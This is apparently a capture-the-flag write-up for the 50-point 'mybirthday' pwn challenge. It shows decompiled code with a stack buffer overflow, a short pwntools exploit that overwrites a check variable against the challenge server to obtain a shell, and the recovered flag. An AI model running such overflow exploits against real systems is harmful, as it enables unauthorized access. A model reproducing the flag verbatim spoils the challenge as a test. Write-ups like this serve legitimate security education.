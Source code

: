 ## mybirthday (50 points)

#### Solved by nhanlun

```
Can you guess my birthday? Or you can just gimme the flag :)

nc 61.28.237.24 30200

author: pakkunandy
```

Open `mybirthday` with Ghidra:

```cpp
undefined4 main(void)
{
  undefined local_2c [24];
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0xfeefeffe;
  setup();
  puts("Tell me your birthday?");
  read(0,local_2c,30);
  if (local_14 == 0xcabbfeff) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  return 0;
}
```

We use buffer overflow to overwrite `local_14` with 0xcabbfeff to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30200)
conn.sendlineafter('?', b'a' * 24 + p32(0xcabbfeff))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
hpbd
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{Just_A_Warm_Up_Pwn}
```

**Flag:** `HCMUS-CTF{Just_A_Warm_Up_Pwn}`
